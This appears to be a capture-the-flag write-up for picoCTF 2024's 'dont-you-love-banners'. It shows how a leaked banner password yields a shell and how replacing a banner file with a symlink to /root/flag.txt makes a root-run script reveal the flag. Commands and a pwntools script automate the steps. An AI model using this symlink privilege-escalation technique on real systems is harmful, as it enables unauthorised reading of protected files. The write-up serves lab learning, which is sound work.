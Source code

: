 ```yaml
---
title: ✅ dont-you-love-banners
tags:
  - picoCTF-2024
  - general-skills
date: 2024-10-10
difficulty: Medium
---
```

# Description 📄

Can you abuse the banner? The server has been leaking some crucial information on `tethys.picoctf.net 64611`. Use the leaked information to get to the server. To connect to the running application use `nc tethys.picoctf.net 57294`. From the above information abuse the machine and find the flag in the `/root` directory.

# Method_1 🧪

- In challenge description it says that "server has been leaking crucial information", so lets connect to server

```bash
telnet tethys.picoctf.net 64611
```

![picoCTF_dont-you-love-banners_img1](https://imgur.com/7PfQdju.png)

```password
My_Passw@rd_@1234
```

- We get the password. Now lets go to next step (connecting using `nc`)

```bash
nc tethys.picoctf.net 57294
```

![picoCTF_dont-you-love-banners_img2](https://imgur.com/nzpteAh.png)

```ans
DEFCON
```

```ans
John Draper
```

- After typing the password and googling for some questions, we are granted **shell** access

![neo-i-am-in](https://i.imgur.com/W20aG4y.gif)

- If we do `ls` and check the files we find the **banner** that we were greeted with when connected using `nc` is in `banner` file and a file called `text` which is clearly there to mock us

![picoCTF_dont-you-love-banners_img3](https://imgur.com/lWA5nBp.png)

<img src="https://i.imgur.com/KdDzHnw.gif" title="source: imgur.com" alt="he-got-some-humor" width="500" />

- We know that the flag is in `/root` so if we go in there and do `ls`, we'll see `flag.txt` which we can't read but there is also a python script called `script.py` which is readable by anyone

![picoCTF_dont-you-love-banners_img4](https://imgur.com/sFl4pGX.png)

- Since the script is owned by **root** we know only root can execute it and after reading the script we get to know that it displays banner from `/home/player/banner`. So one can be that we delete the banner file and make a **system link** to `/root/flag.txt` so that when we log in again the **flag** gets displayed instead of the original banner

```bash
rm /home/player/banner
```

```bash
ln -s /root/flag.txt /home/player/banner
```

```bash
# exit shell and login again
nc tethys.picoctf.net 63490
```

# Method_2 🧪

- I tried to write a script but it didn't work the way i intended. So, now I have to run the script twice to get the flag
- I know my coding skills are bad 🥲

![It is what it is]

## Code

- Remember to edit **port** and run twice to get flag

```python
from pwn import *
import time

hostname = "tethys.picoctf.net"
port = 62793  # Change port to an integer

# Function to connect to the server
def connect_to_server():
    try:
        conn = remote(hostname, port)
        print("Connected")
        return conn
    except Exception as e:
        print(f"Connection failed: {e}")
        return None

# Detecting banner
def identify_banner(conn):
    print("Received banner:\n")
    n = 0
    while n < 10:
        try:
            tmp = conn.recvline(timeout=5).decode()
            print(tmp)  # Display received line
            
            if "?" in tmp:
                global question_1
                question_1 = tmp.strip()
                break
            
            n += 1
        except EOFError:
            print("Server closed the connection unexpectedly.")
            break
        except Exception as e:
            print(f"Error receiving data: {e}")
            break

# Main execution
conn = connect_to_server()
if conn:
    identify_banner(conn)

    print(f"{question_1=}")
    conn.sendline(b"My_Passw@rd_@1234")
    print("Answered: My_Passw@rd_@1234\n")
    time.sleep(1)  # Wait a second before receiving response

    question_2 = conn.recvline(timeout=10).decode().strip()
    print(f"{question_2=}")
    conn.sendline(b"DEFCON")
    print("Answered: DEFCON\n")
    time.sleep(1)

    question_3 = conn.recvline(timeout=10).decode().strip()
    print(f"{question_3=}")
    conn.sendline(b"John Draper")
    print("Answered: John Draper\n")
    time.sleep(1)

    # Receive shell access and running commands
    try:
        print(conn.recv(timeout=10).decode().strip())
        conn.sendline(b"mv /home/player/banner /home/player/banner.old")
        time.sleep(2)  # Wait before receiving response
        print(conn.recv(timeout=10).decode().strip())
        
        conn.sendline(b"ln -s /root/flag.txt /home/player/banner")
        time.sleep(2)
        print(conn.recv(timeout=10).decode().strip())
    except Exception as e:
        print(f"Error during command execution: {e}")

    # Closing connection
    conn.close()

    print("If you didn't get the flag then run again")
else:
    print("Unable to connect to the server.")
```